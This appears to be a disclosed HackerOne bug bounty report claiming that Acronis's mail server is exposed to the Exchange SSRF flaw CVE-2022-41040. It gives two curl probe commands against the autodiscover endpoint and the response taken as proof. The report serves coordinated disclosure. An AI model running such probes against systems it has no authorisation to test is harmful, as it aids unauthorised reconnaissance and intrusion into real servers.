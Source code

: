 #  mail.acronis.com is vulnerable to zero day vulnerability CVE-2022-41040

## Report Details
- **Report ID**: 1719719
- **URL**: https://hackerone.com/reports/1719719
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-10-02T08:47:22.863Z
- **Disclosed**: 2022-10-13T17:12:43.402Z

## Reporter
- **Username**: bbece5b1ea2cbb33d0690ad
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hello Acronis team,

Please run

curl -ksL -m5  -o /dev/null -I -w "%{http_code}" "https://mail.acronis.com/autodiscover/autodiscover.json?Email=autodiscover/autodiscover.json@outlook.com&Protocol=ActiveSync"
curl -ksL -m5 "https://mail.acronis.com/autodiscover/autodiscover.json?Email=autodiscover/autodiscover.json@outlook.com&Protocol=ActiveSync" | grep Protocol


and get following output

404 and {"Protocol":"ActiveSync","Url":"https://eas.outlook.com/Microsoft-Server-ActiveSync"}

Proving that  mail.acronis.com is vulnerable to CVE-2022-41040

Poc video attached

## Impact

SSRF can be used to for unauthorized actions or access to confidential data.

## Attachments
No attachments
